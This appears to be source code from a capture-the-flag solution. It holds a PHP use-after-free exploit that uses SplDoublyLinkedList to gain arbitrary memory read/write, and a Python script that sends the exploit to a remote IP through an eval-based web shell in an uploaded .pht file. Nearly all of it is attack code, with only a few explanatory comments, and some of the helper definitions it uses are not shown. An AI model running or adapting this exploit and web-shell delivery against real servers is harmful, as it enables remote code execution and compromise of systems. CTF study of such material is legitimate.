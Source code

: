 ```php

$dlls = [];
$strs = [];
$rw_dll = new SplDoublyLinkedList();


# Create a chain of dangling triggers, which will all in turn
# free current->next, push an element to the next list, and free current
# This will make sure that every current->next points the same memory block,
# which we will UAF.
for($i = 0; $i < NB_DANGLING; $i++)
{
    $dlls[$i] = new SplDoublyLinkedList();
    $dlls[$i]->push(new DanglingTrigger($i));
    $dlls[$i]->rewind();
}

# We want our UAF'd list element to be before two strings, so that we can
# obtain the address of the first string, and increase is size. We then have
# R/W over all memory after the obtained address.
define('NB_STRS', 50);
for($i = 0; $i < NB_STRS; $i++)
{
    $strs[] = str_shuffle(str_repeat('A', SIZE_ELEM_STR));
    i2s($strs[$i], 0, STR_MARKER);
    i2s($strs[$i], 8, $i, 7);
}

# Free one string in the middle, ...
$strs[NB_STRS - 20] = 123;
# ... and put the to-be-UAF'd list element instead.
$dlls[0]->push(0);

# Setup the last DLlist, which will exploit the UAF
$dlls[NB_DANGLING] = new SplDoublyLinkedList();
$dlls[NB_DANGLING]->push(new UAFTrigger());
$dlls[NB_DANGLING]->rewind();

# Trigger the bug on the first list
$dlls[0]->offsetUnset(0);
die();
```

```python
import requests

data = {
    'payload': open('uaf.php').read().replace('<?php', '')
}

response = requests.post("http://3.38.109.135:28344/data/bf233c59229bbbbe50aa44971fbb17c2/40977f3b892bcbc3edd5fd4f1d3abe38.pht?code=eval($_POST['payload']);", data=data)
print(response.text)
```

